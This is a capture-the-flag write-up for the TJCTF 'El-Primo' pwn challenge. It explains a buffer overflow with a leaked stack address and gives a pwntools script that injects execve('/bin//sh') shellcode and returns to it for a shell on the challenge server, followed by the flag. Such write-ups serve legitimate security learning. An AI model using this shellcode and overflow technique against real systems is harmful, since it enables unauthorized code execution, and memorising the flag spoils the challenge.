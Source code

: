 # El-Primo
Pwn, 60

>  Written by agcdragon
>  My friend just started playing Brawl Stars and he keeps raging because he can't beat El Primo! Can you help him?
>  nc p1.tjctf.org 8011

This challenge was a buffer overflow with a stack leak and an executable stack, so we just had to write some shellcode and return to it.

```python
from pwn import *

#p = process("./el_primo")
p = remote("p1.tjctf.org", 8011)
#gdb.attach(p)
p.recvuntil(": 0x")
i = int(p.recvuntil("\n")[:-1], 16)
p.sendline(p32(i+4)+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"+p32(i+4))

p.interactive()
```

Flag: `tjctf{3L_PR1M0O0OOO!1!!}`